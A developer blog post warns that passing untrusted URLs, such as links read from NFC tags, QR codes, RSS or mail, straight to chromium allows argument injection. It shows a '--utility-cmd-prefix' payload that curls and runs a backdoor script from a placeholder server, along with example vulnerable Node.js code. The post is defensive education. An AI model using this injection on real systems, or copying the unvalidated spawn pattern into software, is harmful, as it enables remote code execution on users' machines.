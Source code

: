 ```yaml
---
layout: post
title:  "Do not run chrome from your app!"
published: true
author: nemanjan00
image: /assets/chrome_malware_warnings.jpg
hero_image: /assets/chrome_malware_warnings.jpg
hero_darken: true
show_sidebar: true
---
```


This is example how your user can be hacked if you misuse chromium to open web links.

## Attack

What I have seen people do is something like this:

```c
url = "someurl"; // this is just pseudo-code
execlp("chromium", "chromium", url);
```

What that does is it runs this:

```bash
chromium someurl
```

And if they get something like this as parameter:

```
url = `--utility-cmd-prefix='bash -c \" ls . ; curl http://someserver/backdoor.sh > backdoor.sh ; bash backdoor.sh ; ls . \"'`
```

What happens is user just got compromised...

```
chromium --utility-cmd-prefix='bash -c \" ls . ; curl http://someserver/backdoor.sh > backdoor.sh ; bash backdoor.sh ; ls . \"'
```

Example vulnerable code:

```javascript
const { spawn } = require("child_process");
const fs = require("fs");

spawn("nfc-mfultralight", ["r", "dump"]).on("close", () => {
	const ndefLibrary = require('ndef-lib');

	const data = fs.readFileSync("./dump").slice(18);

	const message = new ndefLibrary.NdefMessage.fromByteArray(data);

	const url = Buffer.from(message._records[0]._payload).toString("utf8").slice(2);

	const shell = spawn("chromium", [url]);

	shell.stdout.on("data", data => {
		console.log("" + data);
	});

	shell.stderr.on("data", data => {
		console.error("" + data);
	});

	shell.on("close", (code) => {
		console.log(code);
	});
});
```

To understand how big of issue this is I suggest reading [my post about command arguments](https://nemanja.top/2022/05/01/why-argv-sucks-for-users).

## Real danger example 1 (NFC/QRcode)

Now imagine you have just implemented NFC or QRcode reader...

You did not check url format, you passed it to chromium as url...

![](/assets/rfid.png)

## Real danger example 2 (RSS reader/Mail client)

What happens if you want to open link you just took from XML or JSON and you trust it is valid link?

You just pass it to chromium?

